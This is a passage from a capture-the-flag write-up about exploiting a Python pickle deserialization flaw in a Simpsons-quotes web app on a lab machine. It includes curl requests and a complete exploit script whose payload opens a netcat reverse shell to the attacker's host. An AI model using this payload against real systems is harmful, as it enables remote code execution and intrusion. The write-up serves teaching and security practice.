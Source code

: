 The file is describing the web application behavior.

I can quickly note there is a CouchDB server running on `localhost:5984`.

The web application is listing some Simpsons quotes and also allow us to submit some.
So I can only submit quotes from whitelist Simpsons characters.
Once submitted, the quote will be stored in a file name `"/tmp/" + md5(char + quote).hexdigest() + ".p`.
So I know exactly where the file will be stored and how it will be named.

The normal behavior will be to submit a quote like this:

```
$ curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' http://10.10.10.70/submit -d 'character=homer&quote=testttttt'
```

Then we can check the quote was saved by computing the file id which is used for the file name and request it:

```
$ printf %s%s 'homer' 'testttttt' | md5sum | awk '{ print $1 }' | tr -d '\n'
736dec3d7d835c35578fd1d4cf54d389

$ curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' http://10.10.10.70/check -d 'id=736dec3d7d835c35578fd1d4cf54d389'
```

### Exploiting the web application vulnerability

Did you spotted the vulnerability in the source code?

When doing the *check*, the web application is loading the content of the quote file into Pickle.

Note: Pickle is a python library used to serialize python objects.

Why this is a vulnerability? Because pickle deserialization can lead to arbitrary code execution if the data passed to it is unsafe, like in our case, controlled by the user.

There are various article on Internet explaining what is deserialization, Pickle or its exploitation like this one: [Explaining and exploiting deserialization vulnerability with Python](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html).

So here we are:

1. We can control the data passed to cPickle (so we can make some code executed)
2. We know where the file is stored (so we can trigger the payload)
3. We have the source code (so we are able to build a valid payload targeting the web application)

I created the following payload in python (name `pickle_exploit.py`):

```python
import re, cPickle, hashlib, requests, os

class shell(object):
  def __init__(self):
    self.reverse_ip = "10.10.14.216"
    self.reverse_port = "42424"
  def __reduce__(self):
    return (os.system, ("rm /tmp/shell; mknod /tmp/shell p; nc %s %s < /tmp/shell | /bin/bash > /tmp/shell" %(self.reverse_ip, self.reverse_port),))

if __name__ == "__main__":
  character = "S'homer'\n"
  quote     = cPickle.dumps(shell())
  if re.search('<strong>Success!</strong>', requests.post('http://10.10.10.70/submit', data={"character":character, "quote":quote}).text):
    print 'Success'
    p_id = hashlib.md5(character + quote).hexdigest()
    print requests.post("http://10.10.10.70/check", data={"id":p_id}).text
```
